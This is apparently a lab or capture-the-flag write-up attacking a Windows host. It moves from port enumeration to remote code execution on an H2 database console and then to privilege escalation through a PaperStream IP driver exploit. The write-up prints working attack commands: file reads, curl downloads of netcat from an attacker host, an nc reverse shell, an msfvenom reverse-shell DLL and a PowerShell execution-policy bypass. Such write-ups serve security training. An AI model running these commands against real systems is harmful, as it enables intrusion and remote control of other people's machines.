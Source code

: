 #Pwned! 
```IP
 192.168.204.66
```
# Enumeration
## SMB
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241124130616.png?raw=true)
## RPC

## HTTP 80
IIS 10.0
H2 free java sql database engine
Version 1.4.199 ????

/html
```
links.html
license.html
faq.html
stylesheet.css
main.html
download.html
history.html
frame.html
advanced.html
features.html
search.js
source.html
tutorial.html
changelog.html
build.html
```
/text
/help
/javadoc
```
index.html
stylesheet.css
animate.js
overview.html
```
JDBC API
## HTTP 8082
H2 login page
it is possible to acces with user sa and blank password
## 4451 
ctisystemmsg
## 5040

## 7680
pando-pub

## 9092
XmlIpcRegSvc
## 9282
swtp-port2
# Exploitation
## H2 database engine
Unauthenthicated RCE
https://gist.githubusercontent.com/h4ckninja/22b8e2d2f4c29e94121718a43ba97eed/raw/152ffcd996497e01cfee1ceb7237375f1a1e72f2/h2-exploit.py
```
python h2_rce.py -H  192.168.204.66:8082 -d jdbc:h2:~/test
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241124121924.png?raw=true)
we can read files
```
SELECT FILE_READ('C:\Windows\System32\drivers\etc\hosts', NULL);
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241124125220.png?raw=true)
```
CREATE ALIAS REVEXEC AS $$ String shellexec(String cmd) throw java.io.IOException {java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream()).useDelimiter("\\A"); return s.hasNext() ? s.next() : ""; }$$;
```
However it doesnt seem capable of running alias statements
Another exploit
https://www.exploit-db.com/exploits/49384
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241124131339.png?raw=true)
```
CALL JNIScriptEngine_eval('new java.util.Scanner(java.lang.Runtime.getRuntime().exec("curl http://192.168.45.185:80/nc64.exe -o C:/Windows/Temp/nc.exe").getInputStream()).useDelimiter("\\Z").next()');
```
```
CALL JNIScriptEngine_eval('new java.util.Scanner(java.lang.Runtime.getRuntime().exec("C:/Windows/Temp/nc.exe 192.168.45.185 8082 -e cmd.exe").getInputStream()).useDelimiter("\\Z").next()');
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241124134446.png?raw=true)

# PrivEsc

## Manual
Our shell doesnt work very well...
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241124135917.png?raw=true)


![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241124152803.png?raw=true)
PaperStream IP driver 1.42

Seems like there is a Local PE exploit for this
https://www.exploit-db.com/exploits/49382

we follow the instructions
```
msfvenom -p windows/x64/shell_reverse_tcp -f dll -o shell.dll LHOST=192.168.45.185 LPORT=8082
```
from /windows/system32 we can run some commands, and we can verify that the target runs in an x64 archistecture
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241124154714.png?raw=true)

```
CALL JNIScriptEngine_eval('new java.util.Scanner(java.lang.Runtime.getRuntime().exec("curl http://192.168.45.185:8000/shell.dll -o C:/Windows/Temp/UninOldIS.dll").getInputStream()).useDelimiter("\\Z").next()');
```
```
curl http://192.168.45.185:8000/PaperTemp.ps1 -o C:\Windows\Temp\PaperTemp.ps1
```
```
curl http://192.168.45.185:8000/shell.dll -o C:\Windows\Temp\UninOldIS.dll
```
powershell directory
```
cd C:\Windows\System32\WindowsPowerShell\v1.0
```
```
powershell.exe -ep bypass C:\Windows\Temp\PaperTemp.ps1
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241124162237.png?raw=true)

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241124162349.png?raw=true)
## Automated

### Peass
### Mimikatz

# Lateral Movement

